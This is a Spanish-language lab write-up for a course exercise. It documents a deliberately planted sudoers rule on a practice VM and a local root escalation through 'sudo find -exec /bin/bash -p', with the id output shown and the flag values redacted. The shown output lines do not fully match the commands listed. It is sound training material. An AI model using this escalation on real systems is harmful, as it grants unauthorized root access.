



# MF0490 — Fase 2 — Escalada local a root

## 1. Preparación de la vulnerabilidad local

Se configuró una regla sudoers intencional para que `catalog` pueda ejecutar `/usr/bin/find` como root sin contraseña. La sintaxis se validó en el host con `visudo -cf /etc/sudoers.d/90-catalog-find`, que informó `parsed OK`.

La evidencia del acceso inicial como cuenta limitada se encuentra en la [Fase 1 — Acceso inicial mediante NFS](../fase1/evidencias.md).

## 2. Prueba desde la cuenta limitada

Desde Kali se inició sesión SSH como `catalog` en el host `srv-01`. Se ejecutó:

Antes de escalar se confirmó que `catalog` (UID 1001) puede leer `~/user.txt`, pero no `/root/root.txt`. La prueba descarta el acceso directo a la segunda flag desde la cuenta limitada:



```text
User catalog may run the following commands on srv-01:
    (root) NOPASSWD: /usr/bin/find
```



Luego se ejecutó:

```bash
sudo /usr/bin/find . -exec /bin/bash -p \; -quit
id
hostname
cat /root/root.txt
```

Resultado observado:

```text
uid=0(root) gid=0(root) groups=0(root)
hostname: srv-01
pwd: /home/catalog
```

La transición a UID 0 en el Ubuntu anfitrión y la lectura de `/root/root.txt` están validadas. El valor se conserva únicamente en el dossier privado y no se reproduce aquí.



La captura de lectura de `/root/root.txt` fue revisada y el valor quedó cubierto con una máscara sólida opaca; está guardada como `media/root-flag-redacted.png`.

## 3. Estado de aceptación

- [x] Punto de partida: cuenta limitada `catalog`.
- [x] Vulnerabilidad local distinta de la vulnerabilidad NFS.
- [x] Escalada a UID 0 en el host Ubuntu `srv-01`.
- [x] `/root/root.txt` no es legible desde `catalog` antes de la escalada.
- [x] `/root/root.txt` leído después de escalar; valor en dossier privado.
- [x] Capturas de evidencia incluidas en `media/`; los valores de las flags están censurados.
- [x] Después de reiniciar la VM: `sudo -l` conserva la regla y la escalada vuelve a dar UID 0 en `srv-01`.
- [x] Después de reiniciar la VM: `user.txt` y `root.txt` existen y no están vacíos.
